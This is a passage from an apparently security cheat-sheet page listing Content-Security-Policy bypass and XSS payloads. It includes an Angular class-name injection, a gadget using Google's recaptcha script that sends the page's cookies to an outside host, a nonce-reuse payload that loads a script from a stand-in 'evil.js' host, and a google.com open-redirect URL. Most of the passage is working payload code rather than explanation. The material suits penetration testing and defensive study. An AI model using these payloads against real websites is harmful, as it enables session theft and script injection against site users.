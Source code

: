 ```markup
```

Angular XSS from a class name:

```html
<div ng-app>
<strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```

#### Abusing google recaptcha JS code

According to [**this CTF writeup**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?\_x\_tr\_sl=es&\_x\_tr\_tl=en&\_x\_tr\_hl=es&\_x\_tr\_pto=wapp#noteninja-3-solves) you can abuse [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) inside a CSP to execute arbitrary JS code bypassing the CSP:

```html
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```

More [**payloads from this writeup**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):

```html
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

<!-- Trigger alert -->
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>

<!-- Reuse nonce -->
<img src=x ng-on-error='
	doc=$event.target.ownerDocument;
	a=doc.defaultView.top.document.querySelector("[nonce]");
	b=doc.createElement("script");
	b.src="//example.com/evil.js";
	b.nonce=a.nonce; doc.body.appendChild(b)'>
```

#### Abusing www.google.com for open redirect

The following URL redirects to example.com (from [here](https://www.landh.tech/blog/20240304-google-hack-50000/)):

```
https://www.google.com/amp/s/example.com/
```
